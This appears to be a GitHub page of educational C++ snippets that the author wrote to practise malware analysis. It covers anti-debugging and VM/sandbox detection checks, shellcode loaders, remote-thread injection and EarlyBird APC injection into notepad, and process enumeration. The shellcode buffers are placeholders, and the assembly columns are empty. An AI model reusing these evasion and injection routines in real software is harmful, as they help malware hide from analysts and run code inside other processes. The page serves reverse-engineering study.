



## Malware Techniques -- Code Snippets vs Assembly
The program that I took these code snippets from was my own creation. I wanted to practice identifying and bypassing various anti-analysis checks that I've seen in malware. The way that I designed the program to work is if any of the checks failed, it would return a 1 instead of a 0. If it returned 1, it would increment a total counter. If the result of the counter was anything other than a 0 by the end, the analyst has failed to bypass the checks and it would show the error message. I wanted to mention this in case any readers had any questions regarding the int function types and return values.

---

### Anti-Analyis

#### IsDebuggerPresent
<table>
<tr>
<th> Source </th>
<th> Assembly </th>
</tr>
<tr>
<td>

```C++
int basicDebugger()
{
	BOOL basicDebugResult = IsDebuggerPresent();
	if (basicDebugResult == TRUE) {
		return 1;
	}
	return 0;
}
```

</td>
<td>	


</td>
</tr>
</table>
	
---

#### Total RAM Amount
<table>
<tr>
<th> Source </th>
<th> Assembly </th>
</tr>
<tr>
<td>

```C++
int ramCheck()
{
	MEMORYSTATUSEX statex;
	statex.dwLength = sizeof(statex);
	GlobalMemoryStatusEx(&statex);
	int ramResult = (float)statex.ullTotalPhys / (1024 * 1024 * 1024);
	if (ramResult < 6) {
		return 1;
	}
	return 0;
}
```

</td>
<td>


</td>
</tr>
</table>

---

#### Total Processor Check
<table>
<tr>
<th> Source </th>
<th> Assembly </th>
</tr>
<tr>
<td>

```C++
int procCheck()
{
	unsigned logicalCpuCount;
	SYSTEM_INFO systemInfo;
	GetSystemInfo(&systemInfo);
	logicalCpuCount = systemInfo.dwNumberOfProcessors;
	if (logicalCpuCount < 4) {
		return 1;
	}
	return 0;
}
```

</td>
<td>


</td>
</tr>
</table>

---

#### Total Disk Size Check
<table>
<tr>
<th> Source </th>
<th> Assembly </th>
</tr>
<tr>
<td>

```C++
int diskCheck()
{
	HANDLE hDevice = CreateFileW(L"\\\\.\\PhysicalDrive0", 0, FILE_SHARE_READ | FILE_SHARE_WRITE, NULL, OPEN_EXISTING, 0, NULL);
	DISK_GEOMETRY pDiskGeometry;
	DWORD bytesReturned;
	DeviceIoControl(hDevice, IOCTL_DISK_GET_DRIVE_GEOMETRY, NULL, 0, &pDiskGeometry, sizeof(pDiskGeometry), &bytesReturned, (LPOVERLAPPED)NULL);
	DWORD diskSizeGB;
	diskSizeGB = pDiskGeometry.Cylinders.QuadPart * (ULONG)pDiskGeometry.TracksPerCylinder * (ULONG)pDiskGeometry.SectorsPerTrack * (ULONG)pDiskGeometry.BytesPerSector / 1024 / 1024 / 1024;
	
	if (diskSizeGB < 250) {
		return 1;
	}

	return 0;
}
```

</td>
<td>


</td>
</tr>
</table>

---

#### GetTickCount
<table>
<tr>
<th> Source </th>
<th> Assembly </th>
</tr>
<tr>
<td>

```C++
int getTickCheck()
{
	unsigned int timestampOne = GetTickCount();
	OutputDebugString(L"Debug");
	unsigned int timestampTwo = GetTickCount();
	unsigned int difference = timestampTwo - timestampOne;
	if (difference > 1000) {
		return 1;
	}
	return 0;
}
```

</td>
<td>


</td>
</tr>
</table>

---

#### CheckRemoteDebuggerPresent
<table>
<tr>
<th> Source </th>
<th> Assembly </th>
</tr>
<tr>
<td>

```C++
int advancedDebug()
{
	BOOL isRemoteDebuggerPresent = FALSE;
	CheckRemoteDebuggerPresent(GetCurrentProcess(), &isRemoteDebuggerPresent);

	if (isRemoteDebuggerPresent == TRUE) {
		return 1;
	}
	return 0;
}
```

</td>
<td>


</td>
</tr>
</table>

---

#### VirtualBox Check
<table>
<tr>
<th> Source </th>
<th> Assembly </th>
</tr>
<tr>
<td>

```C++
int vboxCheck()
{
	// Look for VirtualBox files
	WIN32_FIND_DATAW findFileData;
	if (FindFirstFileW(L"C:\\Windows\\System32\\VBox*.dll", &findFileData) != INVALID_HANDLE_VALUE) return 1;

	// Look for VirtualBox registry keys
	HKEY hkResult;
	if (RegOpenKeyExW(HKEY_LOCAL_MACHINE, L"SYSTEM\\ControlSet001\\Services\\VBoxSF", 0, KEY_QUERY_VALUE, &hkResult) == ERROR_SUCCESS) return 1;

	return 0;
}
```

</td>
<td>


</td>
</tr>
</table>

---

#### VMware Check
<table>
<tr>
<th> Source </th>
<th> Assembly </th>
</tr>
<tr>
<td>

```C++
int vmWareCheck()
{
	// Look for VMware files
	WIN32_FIND_DATAW findFileData;
	if (FindFirstFileW(L"C:\\Windows\\System32\\drivers\\vmmouse.sys", &findFileData) != INVALID_HANDLE_VALUE) return 1;

	// Look for VMware registry keys
	HKEY hkResult;
	if (RegOpenKeyExW(HKEY_LOCAL_MACHINE, L"SOFTWARE\\VMware, Inc.\\VMware Tools", 0, KEY_QUERY_VALUE, &hkResult) == ERROR_SUCCESS) return 1;

	return 0;
}
```

</td>
<td>


</td>
</tr>
</table>

---

---

### Launching Payloads

#### Grabbing Payload from Resources
<table>
<tr>
<th> Source </th>
<th> Assembly </th>
</tr>
<tr>
<td>

```C++
int main()
{
    HRSRC shellcodeResource = FindResource(NULL, MAKEINTRESOURCE(101), L"calc_bin");
    DWORD shellcodeSize = SizeofResource(NULL, shellcodeResource);

    HGLOBAL shellcodeResouceData = LoadResource(NULL, shellcodeResource);

    void* exec = VirtualAlloc(0, shellcodeSize, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    memcpy(exec, shellcodeResouceData, shellcodeSize);
    ((void(*)())exec)();

    return  0;
}
```

</td>
<td>


</td>
</tr>
</table>

---

#### Basic Shellcode Execution
*Note that this is also useful from the malware analysis side to load identified shellcode*
<table>
<tr>
<th> Source </th>
<th> Assembly </th>
</tr>
<tr>
<td>

```C++
int main()
{
    unsigned char buf[] =
        "[SHELLCODE \xBYTES GO HERE]";

    void* exec = VirtualAlloc(0, sizeof(buf), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    memcpy(exec, buf, sizeof(buf));
    ((void(*)())exec)();
}
```

</td>
<td>


</td>
</tr>
</table>

---

#### Basic Process Injection
<table>
<tr>
<th> Source </th>
<th> Assembly </th>
</tr>
<tr>
<td>

```C++
int Inject(HANDLE hProc, unsigned char* payload, unsigned int payload_len) {

    // Setup vars
    LPVOID pRemoteCode = NULL;
    HANDLE hThread = NULL;
    DWORD threadID = NULL;

    // Allocate empty region of memory in victim process
    pRemoteCode = VirtualAllocEx(hProc, NULL, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

    // Write the shellcode to the allocated buffer within victim process
    WriteProcessMemory(hProc, pRemoteCode, (PVOID)payload, (SIZE_T)payload_len, (SIZE_T*)NULL);
    
    // Execute the shellcode by creating a new thread for the victim process
    hThread = CreateRemoteThread(hProc, NULL, 0, (LPTHREAD_START_ROUTINE) pRemoteCode, NULL, 0, &threadID);
    if (hThread != NULL) {
        printf("Yay! We have a thread!");
        WaitForSingleObject(hThread, 500);
        CloseHandle(hThread);
        return 0;
    }
    else {
        printf("Failed to get a thread ID!");
    }
    return -1;
}
```
	
</td>
<td>



</td>
</tr>
</table>

---

#### EarlyBird APC Injection
<table>
<tr>
<th> Source </th>
<th> Assembly </th>
</tr>
<tr>
<td>

```C++
int main()
{
	unsigned char buf[] =
		"[SHELLCODE \xBYTES GO HERE]";

	SIZE_T shellSize = sizeof(buf);
	STARTUPINFOA si = { 0 };
	PROCESS_INFORMATION pi = { 0 };

	CreateProcessA("C:\\Windows\\System32\\notepad.exe", NULL, NULL, NULL, FALSE, CREATE_SUSPENDED, NULL, NULL, &si, &pi);
	HANDLE victimProcess = pi.hProcess;
	HANDLE threadHandle = pi.hThread;

	LPVOID shellAddress = VirtualAllocEx(victimProcess, NULL, shellSize, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	PTHREAD_START_ROUTINE apcRoutine = (PTHREAD_START_ROUTINE)shellAddress;

	WriteProcessMemory(victimProcess, shellAddress, buf, shellSize, NULL);
	QueueUserAPC((PAPCFUNC)apcRoutine, threadHandle, NULL);
	ResumeThread(threadHandle);

	return 0;
}
```
	
</td>
<td>



</td>
</tr>
</table>

---

---

### Other Techniques
#### Iterating Through Processes
<table>
<tr>
<th> Source </th>
<th> Assembly </th>
</tr>
<tr>
<td>

```C++
int FindTarget(const wstring procname) 
{
    // Setup vars
    HANDLE hProcSnap;
    PROCESSENTRY32 pe32;
    int pid = 0;

    // Get a snapshot of all running processes
    hProcSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    if (INVALID_HANDLE_VALUE == hProcSnap) return 0;

    pe32.dwSize = sizeof(PROCESSENTRY32);

    // Get the first process in the list
    if (!Process32First(hProcSnap, &pe32)) {
        CloseHandle(hProcSnap);
        return 0;
    }

    // Iterate through all the rest of the processes until the name of the process matches the name of our target process
    while (Process32Next(hProcSnap, &pe32)) {
        if (procname == pe32.szExeFile) {
            pid = pe32.th32ProcessID;
            break;
        }
    }

    CloseHandle(hProcSnap);

    return pid;
}
```
	
</td>
<td>



</td>
</tr>
</table>

---
